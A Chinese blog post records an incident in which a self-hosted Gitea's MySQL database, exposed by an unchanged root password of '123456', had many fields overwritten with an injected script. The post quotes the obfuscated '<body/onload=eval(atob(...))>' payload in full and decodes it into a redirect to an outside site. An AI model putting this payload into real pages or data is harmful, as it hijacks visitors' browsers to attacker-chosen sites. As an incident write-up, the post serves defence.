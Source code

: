 ```yaml
---
date: 2023-09-22
article: true
star: false
sticky: false
category:
  - 问题记录
tag:
  - mysql
  - inject
  - 
---
```


# 数据库被注入恶意信息

<!-- more -->
---

## 分析

前段时间搭建了个gitea自用，有一天上去过后发现web一直显示500，想着重启试试，结果发现再也重启不能。

```
2023/09/22 14:57:58 ...er/issues/indexer.go:246:func3() [I] Issue Indexer Initialization took 725.906µs
2023/09/22 14:57:58 routers/init.go:69:mustInitCtx() [F] code.gitea.io/gitea/routers.syncAppConfForGit(ctx) failed: readObjectStart: expect { or n, but found <, error found in #1 byte of ...|<body/onloa|..., bigger context ...|<body/onload=eval(atob("d2luZG93LmxvY2F0aW9uLnJlcGx|...
```

在日志这一块，看到了这么个东西，类似一串js代码，后面去看了下数据库，不看不得了，一看吓一跳，数据库里很多表的字段内容都被纂改了

<img src="https://public-1308755698.cos.ap-chongqing.myqcloud.com//img/202309221547220.png" style="zoom:50%;" />

完整内容如下
```
<body/onload=eval(atob("d2luZG93LmxvY2F0aW9uLnJlcGxhY2UoImh0dHBzOi8vaHpyMGRtMjhtMTdjLmNvbS9lYm1zczBqcTc/a2V5PWM5MGEzMzYzMDEzYzVmY2FhZjhiZjVhOWE0ZTQwODZhIik="))>
```

中间是一段base64编码的url，解码过后就是

```
window.location.replace("https://hzr0dm28m17c.com/ebmss0jq7?key=c90a3363013c5fcaaf8bf5a9a4e4086a")
```

大概是想实现js代码被加载的时候自动跳转到这个网站，这个网站后面去看了下，就是个普通的色情网站。

## 问题

问题出现在root密码太过简单，就是123456，由于在使用的时候用的是另一个数据库账号，初始化的root密码忘记改了，所以还是留着123456没有变，这才有了可乘之机。



## 解决
最后是手动将脏数据清洗掉，才恢复了正常，以后还是要定时备份，做好安全工作。

